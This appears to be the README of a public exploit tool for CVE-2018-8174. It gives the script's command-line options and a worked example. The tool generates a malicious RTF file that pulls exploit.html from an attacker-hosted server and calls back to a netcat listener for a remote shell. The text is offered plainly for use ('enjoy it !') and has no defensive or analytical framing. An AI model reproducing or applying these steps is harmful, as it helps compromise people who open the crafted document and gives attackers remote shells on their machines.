 # CVE-2018-8174_EXP
usage: CVE-2018-8174.py [-h] -u URL -o OUTPUT [-i IP] [-p PORT]

Exploit for CVE-2018-8174

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     exp url
  -o OUTPUT, --output OUTPUT
                        Output exploit rtf
  -i IP, --ip IP        ip for netcat
  -p PORT, --port PORT  port for netcat

eg:
1. python CVE-2018-8174.py -u http://1.1.1.1/exploit.html -o exp.rtf -i 2.2.2.2 -p 4444
2. put exploit.html on your server （1.1.1.1）
3. netcat listen  on [any] 4444 (2.2.2.2)

enjoy it !
